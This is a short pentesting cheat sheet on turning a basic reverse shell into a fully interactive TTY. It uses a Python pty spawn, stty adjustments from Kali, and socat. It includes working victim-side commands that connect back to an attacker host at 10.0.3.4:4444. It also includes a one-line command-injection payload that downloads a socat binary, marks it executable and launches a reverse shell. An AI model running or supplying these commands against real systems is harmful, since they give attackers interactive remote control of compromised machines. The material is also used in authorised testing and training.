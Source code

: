 ### Python pty module

````bash
python -c 'import pty; pty.spawn("/bin/bash")'
````

### Upgrading Netcat with magic

First use python.

````bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
````
Once bash is running in the PTY, background the shell with ``Ctrl-Z``
````bash
# In Kali
$ stty raw -echo
$ fg
````

Then you will be back into the reverse shell.

```bash
# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

### Using socat

[socat](http://www.dest-unreach.org/socat/doc/socat.html) is like netcat on steroids and is a very powerfull networking swiss-army knife. Socat can be used to pass full TTY’s over TCP connections.

If `socat` is installed on the victim server, you can launch a reverse shell with it. You _must_ catch the connection with `socat` as well to get the full functions.

The following commands will yield a fully interactive TTY reverse shell:

**On Kali (listen)**:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

**On Victim (launch)**:

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

If socat isn’t installed, you’re not out of luck. There are standalone binaries that can be downloaded from this awesome Github repo:

[https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)

With a command injection vuln, it’s possible to download the correct architecture `socat` binary to a writable directoy, chmod it, then execute a reverse shell in one line:

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

On Kali, you’ll catch a fully interactive TTY session. It supports tab-completion, SIGINT/SIGSTP support, vim, up arrow history, etc. It’s a full terminal. Pretty sweet.